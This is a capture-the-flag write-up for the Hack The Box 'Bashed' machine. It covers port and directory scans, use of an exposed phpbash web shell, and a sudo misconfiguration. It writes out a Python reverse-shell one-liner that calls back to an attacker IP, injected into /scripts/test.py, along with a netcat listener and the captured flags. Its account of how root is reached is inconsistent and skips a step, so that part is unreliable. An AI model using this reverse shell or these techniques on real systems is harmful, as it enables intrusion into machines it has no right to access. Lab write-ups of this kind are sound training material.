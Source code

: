 
IP = 10.10.10.68

we right away see a website

```
sudo nmap -sV 10.10.10.68                                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 15:47 CEST
Nmap scan report for 10.10.10.68
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
```

```
feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/PathBANGER.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       23w     1322c http://10.10.10.68/images/favicon.png
200      GET      154l      394w     7477c http://10.10.10.68/single.html
200      GET      161l      397w     7743c http://10.10.10.68/index.html
200      GET        8l       35w     2447c http://10.10.10.68/images/logo.png
200      GET       32l      116w     1222c http://10.10.10.68/css/carouFredSel.css
200      GET       12l       63w     1392c http://10.10.10.68/js/jquery.mousewheel.min.js
200      GET        8l       73w     2429c http://10.10.10.68/js/html5.js
200      GET       13l      113w     4313c http://10.10.10.68/js/jquery.touchSwipe.min.js
200      GET       15l      672w    36079c http://10.10.10.68/js/jquery.carouFredSel-6.0.0-packed.js
200      GET      118l      550w    60153c http://10.10.10.68/js/jquery.nicescroll.min.js
200      GET        1l        1w       14c http://10.10.10.68/uploads/
200      GET       58l      254w     1783c http://10.10.10.68/js/jquery.easing.1.3.js
200      GET      117l      685w     4689c http://10.10.10.68/css/sm-clean.css
200      GET       96l      166w     1661c http://10.10.10.68/css/clear.css
200      GET      680l     1154w    10723c http://10.10.10.68/css/common.css
200      GET      262l      560w     8904c http://10.10.10.68/js/main.js
200      GET      893l     3885w    26643c http://10.10.10.68/js/imagesloaded.pkgd.js
200      GET        4l       66w    29063c http://10.10.10.68/css/font-awesome.min.css
200      GET        3l      206w    24476c http://10.10.10.68/js/jquery.smartmenus.min.js
200      GET     1412l     2291w    24164c http://10.10.10.68/style.css
200      GET        6l       20w     1537c http://10.10.10.68/images/arrow.png
200      GET       19l       88w     1564c http://10.10.10.68/images/
200      GET       38l       76w      909c http://10.10.10.68/js/custom_google_map_style.js
200      GET      154l     1009w    73725c http://10.10.10.68/images/ajax-document-loader.gif
200      GET        6l     1435w    97184c http://10.10.10.68/js/jquery.js
200      GET      161l      397w     7743c http://10.10.10.68/
200      GET        0l        0w        0c http://10.10.10.68/php/sendMail.php
200      GET       16l       59w      939c http://10.10.10.68/php/
200      GET       20l       96w     1758c http://10.10.10.68/css/
200      GET      216l      489w     8151c http://10.10.10.68/dev/phpbash.php
200      GET        1l      255w     4559c http://10.10.10.68/dev/phpbash.min

```

as we can see there we have http://10.10.10.68/dev/phpbash.php

We are told that the server is build on [phpbash]([https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash))


Inside phpbash:

```
whoami      # www-data
id           # uid=33(www-data)
ls /home     # arrexel, scriptmanager
sudo -l
```

We discover a key privilege escalation path:

```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means www-data can run any command as `scriptmanager`, using `sudo`.

Although we cannot use `su scriptmanager` (no password), we can execute commands as `scriptmanager` with:

```
sudo -u scriptmanager <command>
```

We check `/scripts`:

```
sudo -u scriptmanager ls -la /scripts
```

We find a Python file named `test.py` owned by `scriptmanager`, which we can modify:

```bash
echo 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])' | sudo -u scriptmanager tee /scripts/test.py > /dev/null
```
Note: `10.10.14.11` is the VPN IP of the attacking machine

### Listener:

```bash
nc -lvnp 4444
```

### Trigger the reverse shell:

```bash
sudo -u scriptmanager python /scripts/test.py
```

This gives us a reverse shell as `scriptmanager` on our local machine.


Now check the listener and we should be root!
```
whoami    # root
cat /root/root.txt
07e7b90a784d3f7d0c4ee08c0be62774
cat /home/arrexel/user.txt
817fffdd4cc7a8865c6f07e304a4150d
```


### Conclusion

In the _Bashed_ Hack The Box machine, initial access was obtained through an exposed `phpbash.php` web shell running as the low-privileged `www-data` user. During enumeration, it was discovered that `www-data` had misconfigured `sudo` permissions, allowing it to run any command as the `scriptmanager` user without requiring a password. Although direct switching to `scriptmanager` wasn’t possible, we leveraged `sudo -u scriptmanager` to inject a Python reverse shell into a writable script file (`/scripts/test.py`). By triggering this file, we received a reverse shell connection back to our local Mac, this time as `scriptmanager`. From there, a simple privilege escalation was achieved by running `/bin/bash` as root using `sudo`, completing the compromise and granting access to both the user and root flags. This box serves as a lesson in the dangers of exposed dev tools, overly permissive `sudo` rules, and unmonitored script execution paths.


